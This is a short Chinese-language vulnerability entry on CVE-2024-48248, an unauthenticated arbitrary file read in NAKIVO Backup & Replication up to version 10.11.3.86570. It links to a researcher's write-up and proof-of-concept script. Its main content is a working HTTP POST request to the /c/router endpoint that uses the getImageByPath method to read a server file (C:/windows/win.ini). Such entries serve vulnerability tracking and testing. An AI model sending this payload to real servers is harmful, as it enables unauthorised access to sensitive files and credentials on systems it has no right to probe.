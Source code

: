 



# CVE-2024-48248

>NAKIVO Backup & Replication是一款高效的数据保护解决方案，专为虚拟化、云和物理环境设计。

## 来源

[https://labs.watchtowr.com/the-best-security-is-when-we-all-agree-to-keep-everything-secret-except-the-secrets-nakivo-backup-replication-cve-2024-48248/](https://labs.watchtowr.com/the-best-security-is-when-we-all-agree-to-keep-everything-secret-except-the-secrets-nakivo-backup-replication-cve-2024-48248/)

[https://github.com/watchtowrlabs/nakivo-arbitrary-file-read-poc-CVE-2024-48248/blob/main/watchtowr-vs-nakivo-arbitrary-file-read-poc-CVE-2024-48248.py](https://github.com/watchtowrlabs/nakivo-arbitrary-file-read-poc-CVE-2024-48248/blob/main/watchtowr-vs-nakivo-arbitrary-file-read-poc-CVE-2024-48248.py)

## 简介

NAKIVO Backup & Replication的/c/router接口存在任意文件读取漏洞，未经身份验证的攻击者可以通过该漏洞读取服务器任意文件，从而获取大量敏感信息。

## 漏洞类型

任意文件读取

## 影响范围

-   NAKIVO Backup & Replication <= 10.11.3.86570

## POC

```http
POST /c/router HTTP/1.1
Host: {{Hostname}
Content-Type: application/json
Connection: keep-alive
Content-Length: 121

{"action":"STPreLoadManagement","method":"getImageByPath","data":["C:/windows/win.ini"],"type":"rpc","tid":3980,"sid":""}
```



